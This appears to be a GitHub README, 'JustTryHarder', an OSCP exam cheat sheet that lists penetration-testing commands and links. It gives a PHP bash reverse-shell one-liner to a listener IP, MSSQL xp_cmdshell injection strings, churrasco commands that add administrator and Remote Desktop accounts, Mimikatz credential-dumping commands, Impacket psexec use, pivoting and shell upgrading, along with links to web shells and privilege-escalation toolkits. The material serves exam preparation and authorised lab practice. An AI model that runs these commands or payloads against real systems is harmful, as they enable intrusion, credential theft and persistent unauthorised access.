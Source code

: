 # JustTryHarder
Just Try Harder and pass the OSCP!



Active Directory & Domain Controllers
----------------
- http://web.archive.org/web/20141004091538/http://www.slaughterjames.com/blog/2012/10/23/hacking-a-domain-controller-part-1-enumeration.html

- http://web.archive.org/web/20160417135414/http://www.slaughterjames.com/blog/2012/10/30/hacking-a-domain-controller-part-2-easy-pwnage.html

DNS - Zone Transfers
----------------
host -t axfr test.local 10.10.10.10

host -l test.local 10.10.10.10

File Transfers
----------------
Wget Transfer
How to retrieve file(s) from host (inside a reverse shell)

	1. Place file you want transferred in /var/www/html/
	2. # service apache2 start
	3. # wget http://10.10.10/pspy64 <- for single file
  	4. # wget -r http://10.10.10.10/pspy64/ <- for folder

MSSQL
----------------
- EXEC master..xp_cmdshell 'whoami';
- meh' exec master..xp_cmdshell 'whoami' --

Payloads
----------------
- https://www.offensive-security.com/metasploit-unleashed/payloads/
- non staged = netcat
- staged = multi/handler

PHP
----------------
- https://stackoverflow.com/questions/20072696/what-is-different-between-exec-shell-exec-system-and-passthru-functions?lq=1
- <?php exec("/bin/bash -c 'bash -i >& /dev/tcp/10.0.0.10/1234 0>&1'");

Priv Esc - Linux
----------------
- grep -Ri 'password' .
- find / -perm –4000 2>/dev/null
- find / -user root -perm -4000 -exec ls -ldb {} \;

Priv Esc - Windows
----------------
 - c:\Inetpub>churrasco -d "net user /add <username> <password>"
 - c:\Inetpub>churrasco -d "net localgroup administrators <username> /add"
 - c:\Inetpub>churrasco -d "NET LOCALGROUP "Remote Desktop Users" <username> /ADD"

Post Exploitation
----------------
- Mimikatz.exe (run it)

- privilege::debug

- sekurlsa::logonpasswords

Port Scanning
----------------
reconnoitre -t 10.10.10.10 -o . --services --quick --hostnames

nmap -sT -sU -p- --min-rate 10000
nmap -sT -sU -p <open ports seperated by ,'s> -A
obviously drop -sU if no UDP ports are open
- TCP
nmap -p- -iL ips.txt > AllTCPPorts.txt 
 
- UDP (can take hours so maybe netstat is a better alternative)
nmap -p- -sU -iL ips.txt > udp.txt 
nmap -sU -sV -iL ips.txt > alludpports.txt 
 
- SNMP
nmap -p161 -sU -iL ips.txt > udp.txt  (cmd could be wrong, double check)
 
- SSH
nmap --script ssh2-enum-algos -iL ips.txt > SSH.txt 
 
- SSL
nmap -v -v  --script ssl-cert,ssl-enum-ciphers,ssl-heartbleed,ssl-poodle,sslv2 -iL ips.txt > SSLScan.txt 

Pivoting
----------------
sshuttle -r user@10.10.10.10 10.1.1.0/24

Reverse Shells
----------------
#Windows
- https://github.com/Dhayalanb/windows-php-reverse-shell

Shell Upgrading
----------------
- In reverse shell

1. python -c 'import pty; pty.spawn("/bin/bash")'
2. Ctrl-Z

- In Kali

3. stty raw -echo
4. fg

- In reverse shell
5. reset (sometimes optional)
6. export SHELL=bash
7. export TERM=xterm-256color
8. stty rows <num> columns <cols> (optional)

Show listening ports
----------------
- Linux netstat syntax
	1. netstat -tulpn | grep LISTEN

- FreeBSD/MacOS X netstat syntax
	1. netstat -anp tcp | grep LISTEN
	2. netstat -anp udp | grep LISTEN
	
- OpenBSD netstat syntax

	1. netstat -na -f inet | grep LISTEN
	2. netstat -nat | grep LISTEN

- Nmap scan syntax
	1. sudo nmap -sT -O localhost
	2. sudo nmap -sU -O 192.168.2.13 ##[ list open UDP ports ]##
	3. sudo nmap -sT -O 192.168.2.13 ##[ list open TCP ports ]##

SMB - Impacket
----------------
- Impacket's PSEXEC
/usr/share/doc/python-impacket/examples/psexec.py user@10.10.10.10

Password: (password)

[*] Trying protocol 445/SMB...

- Impacket's SMBServer
cd /usr/share/windows-binaries
python /usr/share/doc/python-impacket/examples/smbserver.py a .

SMTP Enumeration
----------------
https://github.com/s0wr0b1ndef/OSCP-note/blob/master/ENUMERATION/SMTP/smtp_commands.txt


Web Shells
----------------
- https://github.com/Arrexel/phpbash
- https://github.com/flozz/p0wny-shell

WordPress
----------------
- https://forum.top-hat-sec.com/index.php?topic=5758.0

Windows Framework / Powershell
----------------
- https://github.com/samratashok/nishang
- https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc
- https://github.com/rasta-mouse/Sherlock

Windows Post Exploitation Commands
----------------
- net user
- net user USERNAME NEWPASS
- net user "USER NAME" NEWPASS
